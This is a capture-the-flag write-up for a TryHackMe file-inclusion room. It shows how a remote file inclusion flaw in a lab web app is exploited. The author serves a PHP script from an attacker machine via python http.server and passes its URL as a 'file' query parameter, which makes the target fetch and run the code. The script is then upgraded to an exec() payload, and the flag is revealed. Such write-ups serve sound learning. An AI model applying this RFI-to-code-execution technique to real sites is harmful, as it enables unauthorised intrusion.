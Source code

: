 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [lfi-ctf-1](/knowledge/offsec/write-ups/thm/lfi-ctf-1.md) and later ones, this CTF is about finding a flag hidden as a `hostname` with [Remote File Inclusion](/knowledge/offsec/pentesting/RFI.md).

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([LFI](/knowledge/offsec/pentesting/LFI.md)) - to no avail. Since the challenge is about [RFI](/knowledge/offsec/pentesting/RFI.md), I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![Screenshot 2023-01-04 at 21.18.30](/public/Screenshot%202023-01-04%20at%2021.18.30.png)

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`

